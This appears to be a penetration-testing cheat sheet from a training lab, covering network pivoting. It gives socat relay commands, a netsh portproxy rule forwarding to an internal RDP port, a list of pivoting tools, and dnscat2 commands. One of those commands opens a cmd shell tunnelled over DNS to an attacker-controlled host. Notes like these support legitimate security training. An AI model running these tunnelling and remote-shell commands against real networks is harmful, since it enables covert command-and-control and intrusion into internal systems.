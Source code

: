 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

## Bind Port Forwarding (Direct relay)

Starting Socat Listener
```shell
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

## Reverse Port Forwarding

Starting Socat Listener
```shell
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

# Pivoting Around Obstacles

- plink.exe (Windows PuTTY)
- sshuttle (Linux)
- rpivot (Python2)
- netsh (Windows)

Using Netsh.exe to Port Forward

```shell
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

Verifying Port Forward

```shell
netsh.exe interface portproxy show v4tov4
```

# Dnscat2

Start server
```shell
sudo ruby dnscat2.rb --dns host=10.10.16.72,port=53,domain=inlanefreight.local --no-cache
```

Import module on client
```powershell
Import-Module .\dnscat2.ps1
```

Start tunnel
```powershell
Start-Dnscat2 -DNSserver 10.10.16.72 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

